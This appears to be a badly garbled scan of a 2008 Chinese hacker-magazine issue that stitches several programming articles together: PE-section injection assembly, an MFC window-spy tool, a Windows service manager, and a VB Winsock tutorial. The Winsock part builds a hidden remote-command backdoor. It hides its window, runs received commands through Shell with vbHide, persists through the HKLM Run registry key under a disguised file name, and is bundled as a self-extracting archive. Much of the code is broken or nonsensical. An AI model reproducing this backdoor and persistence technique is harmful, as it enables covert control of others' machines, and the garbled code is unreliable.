0, FILE_BEGIN

invoke WriteFile, hFile, dwMySection, size

IMAGE_HEADER_addr, addr&dwFileWritten, NULL
```

---

* 写入`IMAGE_NT_HEADERS`
* 写入`SizeOfImage`

```
inc [PE_Header.FileHeader.NumberOfSections]

mov eax, [My_Section.VirtualAddress]

add eax,dilamen

add eax, funparal

add eax, 0

mov [PE_Header.OptionalHeader.DataDirectory{sizeof(

IMAGE_DATA_DIRECTORY)*1].VirtualAddress],

mov eax, [My_Section.VirtualSize]

mov eax, [PE_Header.OptionalHeader.size]
```

`SectionAlignment`

```
or eax

dxor eax

mul eax
```

```
add eax, [PE_Header.OptionalHeader.SizeOfImage{sizeof(

IMAGE_DATA_DIRECTORY)*1].VirtualAddress], 0

mov eax, [PE_Header.OptionalHeader.DataDirectory{sizeof(

IMAGE_DATA_DIRECTORY)*1].VirtualSize], 0

mov eax, [PE_Header.OptionalHeader.DataDirectory{sizeof(

IMAGE_DATA_DIRECTORY)*2].VirtualAddress], 0
```

## PROGRAMMING Analysis

```
| ::DeleteObject(newPen); |
| ::ReleaseDC(DCHwnd, DC); |
| DeskDC= NULL; |
```

此时，搜索列表功能已经完成。

## 两个函数函数

第一个函数是“在最上”，其代码如下：

```cpp
void CxyDlg::OnClicked(){

    int nTop=((CButton*)GetDlgItem(ID_CHK_TOP))->GetCheck();

    if(nTop==1)

    {

        SetWindowPos(m_hWnd, HWND_TOPMOST, 0, 0, 0, 0, SW_NOMOVE);

    }

    else

    {

        SetWindowPos(m_hWnd, HWND_NOTTOPMOST, 0, 0, 0, 0, SW_NOMOVE);

    }

}
```

第二个函数是“选定”，因为其属性包含多个复页对话，我们使用当前页句柄`g_HNext`来保存，其代码如下：

```cpp
void CxyDlg::OnClicked(){

    m_HNext=((CButton*)GetDlgItem(ID_CHK_HEXT))->GetCheck();

}
```

这里，我们建立了一个全局显示函数，用来输出16和10控制的轮框：

```cpp
CString String(int val){

    CString str;

    if(g_HNext==1)

    {

        str.Format("%d",val);

    }

    else

    {

        str.Format("%d",val);

    }

    return str;

}
```

## 选项卡控制

选项卡控制中，5个标签页对应5个属性页对话，与选项卡相关的类分别为`TabPage0`, `CPage1`, `TabPage2`, `TabPage3`和`TabPage4`。在`CxyDlg`中建立成员属性变量`m_Page0`, `m_Page1`, `m_Page2`, `m_Page4`，在初始化过程中建立这5个属性对话：

```cpp
m_Page0.Create(ID_OLE_PROPAGE_LARGE,GetDlgItem(IDC_TAB));

m_Page1.Create(ID_OLE_PROPAGE_LARGE,GetDlgItem(IDC_TAB));

m_Page2.Create(ID_OLE_PROPAGE_LARGE,GetDlgItem(IDC_TAB));

m_Page4.Create(ID_OLE_PROPAGE_LARGE,GetDlgItem(IDC_TAB));
```

```cpp
m_Page3.Create(ID_OLE_PROPAGE_LARGE3,

m_page_0.Create(ID_OLE_PROPPAGE_LARGE4,GetDlgItem(IDC_TAB));

CRect rc;

GetClientRect(&rc);

rc.top=20;

rc.bottom=-3;

rc.left=-3;

rc.right=3;

m_page_0.ShowWindow(SW_SHOW);

m_page_1.ShowWindow(SW_SHOW);

m_page_2.ShowWindow(SW_SHOW);

m_page_3.ShowWindow(SW_SHOW);

m_page_4.ShowWindow(SW_SHOW);

m_page_0.SetWindow(SW_SHOW);
```

最后在收到消息`SEL_CHANGE`后的消息函数中控制控件的显示：

```cpp
void CxyDlg::OnSelectTab(NMHDR *pNMHDR, LRESULT *pResult){

    // TODO: Add your control handler code

    int i=m_tab.GetCurSel();

    switch(i)

    {

    case 0:

        m_page_0.ShowWindow(SW_SHOW);

        m_page_1.ShowWindow(SW_HIDE);

        m_page_2.ShowWindow(SW_HIDE);

        m_page_3.ShowWindow(SW_HIDE);

        m_page_4.ShowWindow(SW_HIDE);

        break;

    case 1:

        m_page_0.ShowWindow(SW_HIDE);

        m_page_1.ShowWindow(SW_SHOW);

        m_page_2.ShowWindow(SW_HIDE);

        m_page_3.ShowWindow(SW_HIDE);

        m_page_4.ShowWindow(SW_HIDE);

        break;

    case 2:

        default:

        *pResult = 0;

    }

}
```

## 标准标题栏

标准标题栏会显示窗口名称、文本、窗口句柄、程序路径，控制控件的显示或改变在`MyDlg`中通过`WM_BUTTON`点击消息函数。实现该效果：

```cpp
((TabPage*)FromHandle(g_hWnd))->m_editHWND;

SetWindowText((int)g_hWnd);

char strClass[] = "%s";

((TabPage*)FromHandle(g_hWnd))->m_editCLASS.
```

http://hacker.com

《资源教程》2008年专业书籍上册

## PROGRAMMING Analysis


```cpp
SetWindowText(strClass);
(CP32Wnd*)FromHandle(h_hpage2))->SetDlgItemText(
    EDIT_CLASSNAME,strClass);
char strTitle[200] = "";
SetWindowText(hWnd,strTitle);
(CP32Wnd*)FromHandle(h_hpage0))->m_editTITLE;
long lWND = GetWindowLen(hWnd, GW_WDL);
(CP32Wnd*)FromHandle(h_hpage0))->m_editWND;
SetWindowText(Display(lWND));
unsigned long procID=0;
GetWindowThreadProcess(hWnd,&procID);
(CP32Wnd*)FromHandle(h_hpage0))->m_edit_PATH;
SetWindowText(Display(procID));
CString strPath;
GetWindowPath(procID,&strPath);
RECT rect;
GetClientRect(hWnd,&rect); // 获取客户区域
str.Format("%d,%d,%d,%d",rect.left,rect.top,rect.right,rect.bottom);
rect.right-=rect.left;
rect.bottom-=rect.top;
(CP32Wnd*)FromHandle(h_hpage0))->m_edit_RECT;
SetWindowText(Display(rect));
```

其中，`GetProcess`获取进程路径的方法。在系统中，可以用`GetProcess()`函数获取，再用`EnumModules()`函数获取模块列表。一种方法是利用`GetModuleEx()`函数，第二种方法是利用Tool32 API相关的函数。后者WindowsXP以后，本文来说，这段代码如下：

```cpp
CString strPath(procID);
HANDLE hModule;
MODULE32 *pModule=new MODULE32;
ZeroMemory(pModule,sizeof(MODULE32));
hModule=CreateToolhelp32Snapshot(TH32CS_SNAPMODULE,0);
if (hModule != NULL)
{
    str.Format("%s",pModule->szFileName);
    CloseHandle(hModule);
}
delete pModule;
return str;
```


| 样式 | 属性 | 数量 |
| --- | --- | --- |
| 基础样式 |  |  |
| `NO_CAPTION` |  |  |
| `NO_CLIENT` |  |  |
| `NO_BORDER` |  |  |
| `WS_EX_CHILD` |  | 11 |

样式具有“位”属性如果包含，返回其扩展样式，返回0。就可以得到扩展样式与样式列表类似。代码如下：

```cpp
ListBox*pStyle=(ListBox*)FromHandle((HWND)h_hpage0)->GetDlgItem(EDIT_ID_STYLE);
ListBox*pStyle=(ListBox*)FromHandle((HWND)h_hpage0)->GetDlgItem(EDIT_ID_STYLE);
long style=GetWindowLong(hWnd,GW_STYLE);
long ext=GetWindowLong(hWnd,GW_EX_STYLE);
pStyle->SetWindowText(Display(style));
pStyle->SetWindowText(Display(ext));
// 获取扩展列表
if (style & WS_BORDER) pStyle->AddString("*WS_BORDER");
if (style & WS_CAPTION) pStyle->AddString("*WS_CAPTION");
if (style & WS_CHILD);
```

# 装饰页签

装饰页签的设计如图3所示。API函数`GetClass`获取样式值，样式列表的实现与页签类似，在窗口中，只需要几个API函数：

# 结束页签

样式页签的设计如图4所示。API函数`GetWindowLong`获取样式或扩展样式的值。我们将列出`WS_`开头的所有签

# 窗口页签

窗口页签的设计如图4所示。在窗口中，需要用到几个API函数`GetWindow`


# PROGRAMMING ANALYSIS

socket 编程教程 | socket@hacker.com

| 句柄类型 | 句柄名称 | 备注 |
| --- | --- | --- |
| `Socket` | `hSocket` | 已上面定义 |
| 结构 | `qSocket` | 类型为 `AF_SOCKET` |


GetWindowAndSendMessage这三个API函数需要参数来实现不同的功能，这里没有`GetWindowText`函数，因为它不能直接提取按钮内容和窗口的标题，所以用`SendMessage`函数来代替它。

| 句柄名称 | 类型 | 备注 |
| --- | --- | --- |
| 本窗口句柄 | 70850 | 窗口 |
| 上一个句柄 | 90850 | 窗口 |
| 下一个句柄 | 60850 | 窗口 |
| 句柄 | 40852 | 按钮 |
| 第一个句柄 | 50850 | 按钮 |
| 所有者句柄 |  |  |


```cpp
C3page3=(C3page3)FromWnd(handle,hpage3);
HWND temphandle;
char *tempstr;
temphandle=g.hWnd; //上一个按钮 --
page3=SetDlgItemText(IDC_MYWND, Display((int)temphandle));
//
SendMessage(temphandle, WM_GETTEXT, 255,);
page3=SetDlgItemText(IDC_MYTYPLE, tempstr);
// //上一个按钮 --
temphandle=GetNextWindow(g.hWnd,GW_HWNDNEXT);
ppage3=SetDlgItemText(IDC_PREWND, Display((int)temphandle));
//上一个按钮 --
SendMessage(temphandle, WM_GETTEXT, 255,);
page3=SetDlgItemText(IDC_PREWND, tempstr);
// //下一个按钮 --
temphandle=GetNextWindow(g.hWnd,GW_HWNDNEXT);
```

# 取消列表

取消列表的设计如图所示，这里列表与列表项相同，每个列表项前面都有一个。

| 属性 | 值 | 备注 |
| --- | --- | --- |
| 样式 | `LBS_OWNERDRAW` | 设置 |
| 滚动 | `LBS_HASSCROLL` |  |
| 选择 | `LBS_NOTSEL` | 设置 |


复选，这里就要用到`ListBox`了。如果再次具有类化的控件，在本文中制作`CMyric`的过程中，我们会体会到类化的好处。我们可以另一种方法，即用在窗口上显示一个列表控件，点击窗口连接一个`m_listItems`，设置列表为`Fixed`，并带有`Strings`，如图所示。


| General | Styles | Extended Styles |  |
| --- | --- | --- | --- |
| Single | Border | Horizontal scroll | no scroll |
| Owner draw | Vertical scroll | integral light |  |
| Fixed | redraw | List boxes | Metric columns |
| Hang | strings |  |  |

定义`ListBox`，将它类型为`CheckList`，在初始化过程中添加列表字符串：

```cpp
CCckList* listStatus = (CCckList*)GetDlgItem(hDlg, IDC_LISTSTATUS);
listStatus->AddString("选项一");
listStatus->AddString("选项二");
listStatus->AddString("选项三");
listStatus->AddString("选项四");
listStatus->AddString("选项五");
listStatus->AddString("选项六");
listStatus->AddString("选项七");
```

接下来我们要处理消息，当勾选/取消勾选时，列表项改变这个过程与处理框类似，例如某项"选项一"可见，那么代码所示，各项源代码：

```cpp
long style = GetWindow(hWnd, GW_STYLE);
if (style & WS_VISIBLE)
    listStatus->SetCheck(-1);
```

这个列表的作用不仅是显示`ListBox`，还要在状态改变时立即更新`ListBox`状态或行为。状态改变的通知是`BN_SELECTCHANGE`，由于为了避免一个状态引起所有列表项触发，我们采用位开关，使得项被勾选的每一个列表项，实现代码如下：

```cpp
void CMyDlg::OnLbnChanged(UINT nIDEvent)
{
    // TODO. Add your notification handler here
    n = listStatus->GetCurSel();
    switch(n)
    {
    case 0:
        if(listStatus->GetCheck(0) == -1)
            ShowWindow(hWnd, WS_SHOW);
        else
            ShowWindow(hWnd, WS_HIDE);
        break;
    case 1:
        if(listStatus->GetCheck(1) == -1)
            EnableWindow(hWnd, GW_FALSE);
        else
            EnableWindow(hWnd, GW_TRUE);
        break;
    case 2:
        // ...省略
    case 3:
        if(listStatus->GetCheck(2) == -1)
            SetWindowPos(hWnd, HWND_TOPMOST, 0, 0, 0, 0, SWP_NOMOVE);
        else
            SetWindowPos(hWnd, NULL, 0, 0, 0, 0, SWP_NOSIZE);
        break;
    case 4:
        if(listStatus->GetCheck(3) == -1)
            SendMessage(hWnd, WM_MESSAGE, TRUE, 0);
        else
            SendMessage(hWnd, WM_MESSAGE, FALSE, 0);
        break;
    case 5:
        if(listStatus->GetCheck(4) == -1)
            ShowWindow(hWnd, SW_MAXIMIZE);
        else
            ShowWindow(hWnd, WS_MINIMIZE);
        break;
    case 6:
        if(listStatus->GetCheck(5) == -1)
            ShowWindow(hWnd, SW_RESTORE);
        else
            ShowWindow(hWnd, WS_HIDE);
        break;
    case 7:
        if(listStatus->GetCheck(6) == -1)
            SendMessage(hWnd, WM_CHANGE, TRUE, 0);
        else
            SendMessage(hWnd, WM_CHANGE, FALSE, 0);
        break;
    case 8:
        if(listStatus->GetCheck(7) == -1)
            BringWindowToTop(hWnd);
        break;
    }
}
```

在此，我们自己的C++程序已经写完成了。回顾整个程序，细节不多，知识点不少，调试同样容易出错，大家有不明白的地方，可以仔细保存以下源代码，文中一定有一些参考方法可能不够，希望读者们能够通过本书学习到，以后在Windows XP+VC6.0中进行调试。

# PROGRAMMING ANALYSE > 目标(socket) socket@hacker.com_cn

适合读者：编程爱好者，小白爱好者
前置知识：VC++

# 编程 DIY 之系统服务


对系统的管理说是目前程序必备的功能，如启动服务、允许远程控制等，都提供了这项功能，要是我们自己编写的程序也加上这个功能，看着不赖嘛。好啦，读懂了，下载开始吧！我们的程序要实现的如图1和图所示：

```cpp
// pointer to name of service to start
WORD  dwDesiredAccess;
// type of access to service
```

对于系统的管理，通常情况下我们是完全权限的，要实现这个功能，我们可以使用代码来操作：

```cpp
SC_HANDLE scm;
SC_HANDLE service;
if((scm=OpenSCManager(NULL, NULL, SC_MANAGER_ACCESS))==NULL){
    Print(OpenError("error"));
}
service=OpenService(scm, serverName, SERVICE_ALL_ACCESS);
if(!service){
    Print(OpenError("error"));
}
```

图 1

# 阻塞配置数据

在对服务进行管理时，我们需要相同的权限来打开服务。本文将通过我们的 API 来来实现。

```cpp
SC_HANDLE OpenSCManager;
LPCTSTR MachineName;
// pointer to database name
LPCTSTR databaseName;
DWORD  dwDesiredAccess; // type of access :
```

```cpp
SC_HANDLE OpenService;
SC_HANDLE service;
// handle to service control database;
LPCTSTR serviceName;
```

是的，这就通过字符串对服务进行各种操作。

# 挂挂系统服务实例

想要对服务设置，就需要找到服务的若干项参数，其中对于我们通用的几项参数：名称、启动状态以及程序路径。这些信息可以通过我们的 API 函数枚举来实现，它的形式如下：

```cpp
BOOL EnumServiceStatus;
SC_HANDLE scm;
// handle to service control database
DWORD  dwServiceType;
// type of services to enumerate
DWORD  dwServiceState;
// state of services to enumerate
LPENUM_SERVICE_STATUS info;
// pointer to status buffer;
DWORD  size of status buffer;
```

www.hacker.com_cn

《版权所有》2008 博客华博客版

# PROGRAMMING ANALYSIS

```cpp
// LPWORD pByBytesNeeded;
// pointer to variable for bytes needed
LPWORD lpServiceReturned;
// pointer to number returned
LPWORD lpServiceHandle;
```

其中`QUERY_SERVICE_CONFIG lpServiceConfig`是一个结构，它包含了详细资料，原文如下：

```cpp

```


```c
typedef struct QUERY_SERVICE_CONFIG {

    DWORD dwServiceType;

    DWORD dwStartType;

    DWORD dwErrorControl;

    LPSTR lpServiceName;

    LPSTR lpGroup;

    DWORD dwTag;

    LPSTR lpDependencies;

    LPSTR lpDisplayName;

};
```

在上面的代码中，`SERVICE_STATUS`是一个结构，原文如下：

```cpp
typedef struct SERVICE_STATUS {

    LPSTR lpServiceName;

    LPSTR lpDisplayName;

    DWORD STATUS;

} ENUM_SERVICE_STATUS;
```

这结构包含了服务名、显示名、状态字段。虽然它包含的信息是足够的，但是我们只想获取特定的服务信息，还可以通过相同的方法，获取系统中服务的基本信息，实现如下：服务类型、启动类型、程序路径、服务名、显示名均在其中。下面的示例代码所示：

```cpp
QUERY_SERVICE_CONFIG lpServiceInfo = NULL;

for (int i = 0; i < n; i++) {

    SC_HANDLE hHandle = NULL;

    DWORD dwResumeHandle = 0;

    ServiceConfigEx(hHandle, lpServiceName, SERVICE_ALL_ACCESS, LP_SERVICE_CONFIG, 1024);

}
```

```cpp
SERVICE_STATUS lpServiceStatus = NULL;

DWORD dwCurrentState = 0;

DWORD dwResumeHandle = 0;

ServiceStatusEx(hHandle, lpServiceName, SERVICE_WIN32, &lpServiceStatus, &dwCurrentState, 0);
```

用于解析服务状态获取服务信息：

```cpp
printf("服务名: %s\n", lpServiceInfo->lpServiceName);

printf("显示名: %s\n", lpServiceInfo->lpDisplayName);

if(lpServiceInfo->lpBinaryPath) printf("路径: %s\n", lpServiceInfo->lpBinaryPath);
```

# 查询详细服务信息

想要更详细的服务信息，我们可以使用 API `QueryServiceConfig` 获取，原文如下：

```cpp
BOOL QueryServiceConfig(

    SC_HANDLE hService, // handle of service

    QUERY_SERVICE_CONFIG *lpServiceConfig, // address of service structure

    DWORD lSize, // size of configuration buffer

    LPWORD lpByBytesNeeded // address of variable for bytes needed

);
```

```cpp
printf("服务类型: %d\n", lpServiceInfo->dwServiceType);

printf("启动方式: %d\n", lpServiceInfo->dwStartType);

printf("错误控制: %d\n", lpServiceInfo->dwErrorControl);
```

上面的代码，大家可能需要修改它，就可以用到自己的程序中了。

# 启动 / 停止服务

启动一个服务可以使用 `StartService` 函数运行，在启动之前先用 `QueryServiceStatus` 检查一下运行状态。具体的实现代码所示：

```cpp
SERVICE_STATUS status;

BOOL isSuccess=QueryServiceStatus(service,&status);

if (isSuccess) {

    printf("QueryServiceStatus error:%d\n", status.CurrentState);

    if (status.CurrentState==SERVICE_STOPPED) {

        isSuccess=ServiceControl(service,SERVICE_START,NULL);

        if (isSuccess) {

            printf("启动服务失败!\n");

        }

    }

}
```

下面是停止服务的实现代码：

```cpp
if (status.CurrentState==SERVICE_STOPPED) {

    isSuccess=ControlService(service,SERVICE_CONTROL_STOP,&status);

    if (isSuccess) {

        printf("停止服务失败!\n");

    }

}
```

# 创建 / 删除服务

创建服务我们使用的 API 来创建，其形式如下：

```cpp
SC_HANDLE hService;

SC_HANDLE hSCManager; // handle to service manager database

LPSTR lpServiceName; // pointer to name of service to start

LPSTR lpBinaryName; // pointer to display name

DWORD dwDesiredAccess; // type of service

DWORD dwServiceType;

DWORD dwStartType; // when to start service

DWORD dwErrorControl; // if service fails to start

LPSTR lpBinaryPath; // pointer to name of binary

LPSTR lpLoadOrderGroup; // pointer to name of load order group

DWORD lpTagID; // variable to get tag identifier

LPSTR lpDependencies; // array of dependency names

LPSTR lpServiceStartName; // pointer to account name

LPSTR lpPassword; // pointer to password for service account
```

其中`DWORD dwType`是启动服务的：`SERVICE_AUTO_START`（自动）、`SERVICE_DEMAND_START`（手动）和`SERVICE_DISABLED`（禁用）三种方式。比较来说，我们只会使用其中的一部分：`SC_HANDLE hManager`（用`SCManager`打开的句柄），`LPSTR ServiceName`（服务名称），`DWORD DisplayName`（显示名称），`DWORD dwType`（启动方式）和`LPSTR lpBinaryPath`（程序路径），它的真实路径或`NULL`就可以创建一个名为 Lang，路径为`C:\Lang.exe`的自动服务。

```cpp
void createService() {

    SC_HANDLE hcm=NULL;

    SC_HANDLE hSCManager=NULL;

    if(hSCManager=OpenSCManager(NULL, NULL, SC_MANAGER_ACCESS)) {

        Print(OpenError("error"));

    }

    service=OpenService(hSCManager, "Lang", SERVICE_ALL_ACCESS);

    if(!service) {

        Print(OpenError("error"));

    }

    // ... 省略创建逻辑

}
```

很少了网络模块。在VB中，只需要用`Winsock`设置接口后，就可以开始编写`Winsock`就可以实现这一功能的。通过插件控制设置界面的时，左侧的控件并没有`Winsock`的属性，我们可以通过点击菜单的“工程”组件来编写`Winsock`控件！如图1所示，添加组件后我们就可以来布局程序窗口。按图2中的按钮先布局创建控件，设置完毕以后就可以开始编写我们的核心代码了。

设定好连接接口后，就可以开始编写连接按一个按钮的代码，就是要在`Command1_Click()`事件中添加如下代码：

```vb
Private Sub Command1_Click()

    Winsock1.RemoteHost = "服务器"

    ' 设置连接到服务器地址，这里是为了让用户能够输入IP地址

    Winsock1.Connect

End Sub
```

至此，我们已经发送了连接，从服务器的端会收到一个连接请求的，我们先放一放`Server_ConnectionRequest`事件，这时就会出现出现后，服务器成功连接后会返回一个允许连接的数据包，客户端收到这个包后就会触发`Winsock1_Connect()`事件，此时，两个控件将已经建立连接了，这时我们需要如何进行后续？

由于我们要实现的是执行命令，所以我们要对服务器发送一条指令，对对方，当我们组合好命令以后，按“执行”按钮的按钮就触发了`Command2_Click()`事件，我们需要用另一段代码命令发送到服务器端，这里使用`Winsock`的`SendText`方法来实现，具体代码如下：

```vb
Private Sub Command2_Click()

    Winsock1.SendText "退出指令"

    '发送这个指令告诉服务器我们要执行命令了，并等待服务器的执行结果

End Sub
```

如同如何让对方对我的客户端的功能，我们可以用这类似`WinsockCommand3_Click()`事件的代码：

```vb
Private Sub Command3_Click()

    Winsock1.SendData 888

    '发送一个指令，服务器将返回执行结果中的结果

End Sub
```

其余的代码我们就写不完了，大家可以自由地写了，这里的代码仅作为本文教程的代码，所有的代码定成后，点击“文件”-生成.exe文件”，选择一条路径就可以作为客户端的执行文件了，此时客户端的代码就写完了一段，下面再进行服务器的编写。

# 服务器编写

服务器端也要用到`Winsock`插件，按照相同的方法添加好以后，就不用再进行的设计了。由于服务器连接的的时候应该是为了（有）这样会把客户端的界面显示出来呢，所以要设置。


图1


图2

客户端的操作并不复杂，首先我们了解了`Winsock`的基本原理。程序插件功能是基于客户端/服务器这一模型来实现的程序的设置分为两部分，一部分是服务器，也就是对方的。另一部分是客户端，我们需要服务器设置在一个固定或者一个固定的(IP)上等待客户端请求时，客户端请求服务器地址进行连接后，由于`Winsock`服务器端可以使用`LocalPort`和应用函数来设置，客户端使用`RemoteHost`和`RemotePort`用连接方法来发送，并使用`SendText`方法来信息交换。

原来搞定了这些，看来点来还是些东西。这时我们才找到的`Winsock`插件的名称名为`winsock1`，在`form_load()`事件中加入如下代码：

```vb
Private Sub Form_Load()

    Winsock1.RemotePort = 8888

    '设置一个8888端口，服务器端监听该端口'

End Sub
```

# PROGRAMMING ANALYSIS

重置口不可忽视的，我们可以在`form_load()`事件加入下面的代码让重置生效：

```vb
Form1.Visible = False
```

接下来我们用简单解决单的自动更新功能，VB通过调用内置API函数来实现，我们现在要做的是：

```vb
Private Declare CreateRegKey Lib "adv32" (ByVal hKey As Long, ByVal lpClassName As String, ByVal lDisposition As Long, ByVal samAttributes As Long, ByVal lpSubKey As String, ByVal cbSubKey As Long, ByVal dwOptions As Long, ByRef hObjectNewKey As Long, ByRef lpDataSize As Long) As Long

Private Declare RegSetValue Lib "adv32" (ByVal hKey As Long, ByVal lSetValue As Long, ByVal wType As Long, ByVal lpData As Long, ByVal cbData As Long) As Long

Private Declare CreateRegKey Lib "adv32" (ByVal hKey As Long, ByVal lClassName As String, ByVal lDisposition As Long, ByVal samAttributes As Long, ByVal lpSubKey As String, ByVal cbSubKey As Long, ByVal dwOptions As Long, ByRef hObjectNewKey As Long, ByRef lpDataSize As Long) As Long

Private Declare CloseRegKey Lib "adv32" (ByVal hKey As Long) As Long

= RegSetValue(HKEY_LOCAL_MACHINE, "software\windows\currentversion", 0, REG_SZ, StringPtr(string), Len(string)) “表写入

= RegCreateKey(HKEY_LOCAL_MACHINE, sig, 0, KEY_WRITE, 0, 0, NULL, hKey, lpDataSize) “创建失败

= RegCreateKey(HKEY_LOCAL_MACHINE, sig, 0, KEY_WRITE, 0, 0, NULL, hKey, lpDataSize) “创建成功
```

`Server.Port = 8888`

8888端口客户端连接后就运行了。前面提到了`Socket`连接来实现服务器功能，服务端接收一个包（客户端连接），调用`Server_ConnectionRequest`后，真实的代码如下：

```vb
Private Sub Server_ConnectionRequest(ByVal requestID As Long)

    If Server.State = sConnect Then

        Server.Close

    End If

    Server.Accept '接收连接成功并循环发送直到可以接收到数据

End Sub
```

调用客户端的`Winsock_Connect(index)`包连接后应该准备接收指令了，服务器由客户端发送数据，`Server_DataArrival`后的真实的代码如下：

```vb
Private Sub Server_DataArrival(ByVal byTotalBytes As Long)

    Dim sig As String

    sig = Server.GetData '接收到的数据给客户端

    Select Case sig

        Case 88

            Environment.Exit 0

        Case Else

            Shell sig, vbHide '执行命令

    End Select

End Sub
```

在客户端中实现修改注册表的功能，首先是调用`CreateRegKey`、`RegSetValue`和`CloseRegKey`对注册表进行修改值：

```vb
Private Declare CreateRegKey Lib "adv32" (ByVal hKey As Long, ByVal lClassName As String, ByVal lDisposition As Long, ByVal samAttributes As Long, ByVal lpSubKey As String, ByVal cbSubKey As Long, ByVal dwOptions As Long, ByRef hObjectNewKey As Long, ByRef lpDataSize As Long) As Long

Private Sub Form_Load()

    If App.ExName = "sig" Then'这里是判断是否写入了注册表

        FileCopy App.Path & "\" & App.ExName & ".exe", '注册表修改成功后，将其备份为文件
```


```vb
If CloseRegKey(HKEY_LOCAL_MACHINE, "WINDOWS\MSINSOCKCK*") = 0 Then '注册表修改后，将其备份为文件，没有问题

    FileCopy App.Path & "\" & "MSINSOCKCK*" & ".exe"

End If

End If

End Sub

Dim sig As String

Dim sig As Long

Dim sig As String
```



# PROGRAMMING ANALYSIS

至此，服务器的编写就完成了，最后生成`server.exe`就可以了。

## 调试与运行

用我自己的服务器运行一下、双击运行`server.exe`，程序没有运行。我们启动任务管理器，看图3所示，程序已经运行了，调试这些问题就不太好找了。我们用调试表格，如图4所示，已经启动了Run调试，这样就万事无忧了。


图3

控制创建压缩文件就可以了，把`MSWINCX`和`server.exe`文件在同一目录下，然后这两个文件添加到压缩文件，然后在图8所示：


图7

我们打客户端连接，填写：IP地址：`127.0.0.1`，点击连接，结果如图5：



图4

WinRAR界面，“选择创建压缩格式文件”然后选择选项卡，选择中的“自压缩项”，如图9所示：



图8

